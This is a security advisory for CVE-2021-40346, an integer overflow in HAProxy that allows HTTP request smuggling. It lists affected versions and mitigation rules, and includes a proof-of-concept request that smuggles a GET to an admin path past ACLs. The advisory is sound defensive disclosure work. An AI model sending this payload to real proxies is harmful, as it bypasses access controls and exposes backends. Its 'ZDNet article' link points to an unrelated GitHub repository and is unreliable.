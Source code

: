 ```yaml
---
title: Integer overflow in HAProxy leads to HTTP Smuggling
date_published: "2021-07-09"
last_updated: "2021-07-09"
xray_id: XRAY-184496
vul_id: CVE-2021-40346
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary

An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests

## Component

[HAProxy](http://www.haproxy.org/)

## Affected versions

HAProxy [2.0 - 2.0.24], fixed in 2.0.25
HAProxy [2.1 - 2.1*], no fix. unmaintained version
HAProxy [2.2 - 2.2.16], fixed in 2.2.17
HAProxy [2.3 - 2.3.13], fixed in 2.3.14
HAProxy [2.4 - 2.4.3], fixed in 2.4.4
HAProxy Enterprise [2.0r1 - 2.0r1-1.0.0-234.1215], fixed in 2.0r1-1.0.0-235.1230
HAProxy Enterprise [2.1r1 - 2.1r1-1.0.0-238.612], fixed in 2.1r1-1.0.0-238.625
HAProxy Enterprise [2.2r1 - 2.2r1-1.0.0-241.491], fixed in 2.2r1-1.0.0-241.505
HAProxy Enterprise [2.3r1 - 2.3r1-1.0.0-242.330], fixed in 2.3r1-1.0.0-242.345
HAProxy Enterprise [2.4r1 - 2.4r1], fixed in 2.4r1-1.0.0-253.271
HAproxy Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAproxy Enterprise Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAProxy ALOHA [11.5 - 11.5.12], fixed in 11.5.13
HAProxy ALOHA [12.5 - 12.5.4], fixed in 12.5.5
HAProxy ALOHA [13.0 - 13.0.6], fixed in 13.0.7

## Description

Due to an integer overflow, a parsing error is created in HAProxy that allows an attacker to specify two `Content-Length` headers with different sizes. Subsequently, this allows an attacker to perform HTTP smuggling. This attack allows an adversary to smuggle HTTP requests to the backend server, without the proxy server being aware of it. The smuggled requests have various impacts, depending on HAProxy’s configuration and the backend web server configuration: Bypassing security controls, including any ACLs defined in HAProxy, Gaining unauthorized access to sensitive data, Executing unauthorized commands or modifying data, Hijacking user sessions, Exploiting a reflected XSS vulnerability without user interaction.

## PoC

Any attacker that can send requests through the proxy, can exploit this vulnerability, by sending requests such as:

```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60

GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz


```

The GET request will be smuggled and will evade any ACLs defined in the HAProxy configuration file.

## Vulnerability Mitigations

If you are not able to update right away, you can apply the following rules to your HAProxy configuration file to mitigate the vulnerabilities. These should be added to your frontend.

```
frontend myfrontend
http-request deny if { req.hdr_cnt(content-length) gt 1 }
http-response deny if { res.hdr_cnt(content-length) gt 1 }
```


## References

[JFrog Blogpost](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

[HAProxy advisory](https://www.haproxy.com/blog/september-2021-duplicate-content-length-header-fixed/)

[ZDNet article](https://github.com/tailwindlabs/tailwindcss-typography)

